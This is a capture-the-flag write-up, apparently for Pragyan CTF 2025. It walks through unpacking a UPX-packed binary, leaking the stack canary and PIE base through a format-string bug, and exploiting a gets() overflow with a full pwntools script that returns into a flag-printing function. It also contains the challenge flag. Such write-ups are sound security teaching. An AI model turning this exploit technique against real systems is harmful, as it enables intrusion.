 ```yaml
---
title: Interesting
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flags: flag: p_ctf{!_am_v3ry_!nt3r3st1ng_!nd33d}
draft: true
---
```

First, let's check the binary.

```sh
$ file challenge/chal
challenge/chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header

$ strings challenge/chal
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.24 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
...
UPX!
UPX!
```

After checking the strings, we can see that the binary is packed with **UPX**. Let's unpack the binary.

```pwsh
$ .\upx.exe -d chal -o chal.unpack
```

Now let's check the unpacked binary protections.

```sh
$ file challenge/chal.unpack 
challenge/chal.unpack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d7d336a6fb868f08d310d402fd06fe7f7ce2a22c, for GNU/Linux 3.2.0, not stripped
$ pwn checksec challenge/chal.unpack
[*] '/home/ztz/projects/ctf/writeups/2025/pragyan/pwn/interesting/challenge/chal.unpack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The binary is not stripped, and it has all the protections enabled. Where the binary is `Canary` enabled, `NX` enabled, `PIE` enabled, and `Full RELRO` enabled. Where `Canary` is enabled, we need to leak the canary to exploit the buffer overflow vulnerability. `PIE` is enabled, so we need to leak the address to calculate the base address of the binary. Let's check the main function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(
    "########  ########     ###     ######   ##    ##    ###    ##    ## \n"
    "##     ## ##     ##   ## ##   ##    ##   ##  ##    ## ##   ###   ## \n"
    "##     ## ##     ##  ##   ##  ##          ####    ##   ##  ####  ## \n"
    "########  ########  ##     ## ##   ####    ##    ##     ## ## ## ## \n"
    "##        ##   ##   ######### ##    ##     ##    ######### ##  #### \n"
    "##        ##    ##  ##     ## ##    ##     ##    ##     ## ##   ### \n"
    "##        ##     ## ##     ##  ######      ##    ##     ## ##    ## \n"
    "\n");
  puts("Hey there! Welcome to the challenge");
  puts("The rules are simple! Say something interesting, and I will give you the flag.");
  if ( (unsigned int)fun() == 7 )
    puts("Nah! You are boring");
  return 0;
}
```

The main function calls the `fun` function.

```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);                         // Format String
  puts("Do you really think that's interesting?");
  gets(&v1);                                    // Buffer Overflow
  return 7LL;
}
```

The `fun` function has a format string vulnerability and a buffer overflow vulnerability. The format string vulnerability is in the `printf` function, and the buffer overflow vulnerability is in the `gets` function. Let's check the `interesting` function.

```c
unsigned __int64 interesting()
{
  FILE *v0; // rax
  FILE *v1; // rbp
  char v3[264]; // [rsp+0h] [rbp-128h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  puts("Yeah, that's interesting");
  v0 = fopen("flag.txt", "r");
  if ( !v0 )
  {
    perror("Error opening file, Contact Admin");
    exit(1);
  }
  v1 = v0;
  if ( fgets(v3, 256, v0) )
    __printf_chk(1LL, "%s", v3);
  fclose(v1);
  return v4 - __readfsqword(0x28u);
}
```

The `interesting` function opens the `flag.txt` file and prints the content of the file. The `interesting` function is the function that we need to return to get the flag.

Because the binary is `Canary` enabled, we need to leak the canary to exploit the buffer overflow vulnerability. Let's check the format string vulnerability. We can use `gdb` to set a breakpoint after `gets` function and send the format string payload to leak the canary.

![alt text](image.png)

`%p.` is used to leak the canary. We can see that the canary is leaked at index 43.

![alt text](image-1.png)

After leaking the canary, we can use the `canary` command to print the canary. So the canary is `0xfbe0nn390be78400`. Now let's check the canary in format string payload.

![alt text](image-2.png)

The canary is at index 43. Now let's check the address leak. We can use the format string vulnerability to leak the address of the main function.

Disassemble address from the leak `0x555555555180` we can see that the address of the main function.

![alt text](image-3.png)

Because `PIE` is enabled, and we found the address of the main function, we can calculate the base address of the binary. `0x555555555180 - 0x1180` is the base address of the binary.

![alt text](image-4.png)

So the canaries is at index 43 and the main function is at index 47 at address leak.

Now let's write the exploit script.

```c
__int64 v1; // [rsp+0h] [rbp-128h] BYREF
char s[248]; // [rsp+20h] [rbp-108h] BYREF
unsigned __int64 v3; // [rsp+118h] [rbp-10h]
```

`rbp-128h` is the buffer for the gets function, and `rbp-108h` is the buffer for the fgets function. So `0x128 - 0x10` is the offset to the canary.

![alt text](image-5.png)

So the offset to the canary is `0x118`. Now let's write the exploit script.

```py
from pwn import *

binary = './challenge/chal.unpack'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('interesting.ctf.prgy.in', 1337, ssl=True)

r.recvuntil(b"give you the flag.\n")
r.sendline(b"%p." * 50)
leaks = r.recvline().decode().split(".")

pie_leak = int(leaks[47], 16) # Main function address from pie
e.address = pie_leak - 0x1180
log.success(f"Binary Base Address: {hex(e.address)}")

interesting_addr = e.symbols["interesting"] + 8 # +8, idk why too, local works without it
log.success(f"Interesting() Address: {hex(interesting_addr)}")

canary = int(leaks[43], 16)
log.success(f"Canary: {hex(canary)}")

payload = cyclic(280)
payload += p64(canary)            # Canary
payload += cyclic(8)              # RBP
payload += p64(interesting_addr)  # Return to interesting() function

r.recvuntil(b"Do you really think that's interesting?\n")
r.sendline(payload)

r.interactive()
```

